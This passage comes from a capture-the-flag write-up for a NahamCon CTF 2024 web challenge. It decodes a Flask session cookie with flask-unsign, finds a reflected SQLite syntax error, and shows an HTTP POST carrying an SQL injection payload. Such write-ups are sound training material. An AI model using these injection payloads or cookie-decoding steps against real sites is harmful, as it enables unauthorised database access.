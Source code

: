 ![](https://github.com/siunam321/CTF-Writeups/blob/main/NahamCon-CTF-2024/images/Pasted%20image%2020240527130130.png)

**Decoded Flask session cookie:**
```shell
┌[siunam♥Mercury]-(~/ctf/NahamCon-CTF-2024/Web/Hacker-Web-Store)-[2024.05.27|12:58:14(HKT)]
└> flask-unsign --decode --cookie '.eJxljk9Lw0AQxb_KMJe0sBgoEk168pCD4D9MFcSWMMlOTDDZrTsTUEq_u5ub4GV-PHhv3jth3Y0kPQsW7ycEjcCJReiD0WAZgg8wOKiUlCd2WsDtQ1U-7yJ2j_AUvJ1bFVg5mtjAMQxthGVp1_B6c_dSVrBK3vwc4H6eksRAkuXL7bxvKCTrLR7O5n-vYwqwxyzfYwHy45S-gZct0X4wcXNg6bHoaBQ2aJv6SBo1pr2fOG21SyX-GryrLSk1FFXa5naTba5sd9lc17a5kK9x0KVM_Se7GP5rwPMv4dVaiw.ZlQTjg.xWwEiDerpBwEcUToGgqPmNKs8Vs'
{'_flashes': [('message', "Error in Statement: INSERT INTO Products (name, price, desc) VALUES ('Your Mum'', '69', 'foobar');"), ('message', 'near "69": syntax error')], '_fresh': False, 'db_path': '/home/ctf/session_databases/c9d2627df4b8_db.sqlite', 'token': 'c9d2627df4b8'}
```

Oh! We got a **SQL syntax error**, and **the SQL statement is reflected**!

```sql
INSERT INTO Products (name, price, desc) VALUES ('Your Mum'', '69', 'foobar');
```

Also, in the `db_path` claim, we can see that the database file extension is `.sqlite`, which means the web application is using **SQLite**!!

Now, let's "*fix*" the SQL syntax error via this payload:

```http
POST /create/ HTTP/1.1
Host: challenge.nahamcon.com:31903

name=Your+Mum&price=69&desc=foobar');--+-
```
